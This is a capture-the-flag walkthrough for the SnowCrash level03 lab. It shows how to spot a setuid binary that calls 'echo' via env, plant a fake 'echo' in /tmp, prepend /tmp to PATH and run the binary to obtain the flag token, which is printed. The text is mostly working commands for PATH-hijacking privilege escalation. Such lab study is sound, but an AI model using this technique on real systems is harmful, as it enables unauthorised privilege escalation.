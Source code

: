 ```
ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```
```
level03                                                                                                             Exploit me
```

strings level03 | grep Exploit
/usr/bin/env echo Exploit me

Execute /bin/getflag with user flag03 (uid on level03 exe)


cd /tmp
touch echo
/tmp$ echo '/bin/getflag' > echo
chmod 777 echo
level03@SnowCrash:/tmp$ ls -l echo
-rwxrwxrwx 1 level03 level03 13 Sep 14 22:08 echo


export PATH=/tmp:$PATH
level03@SnowCrash:/tmp$ printenv | grep PATH
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

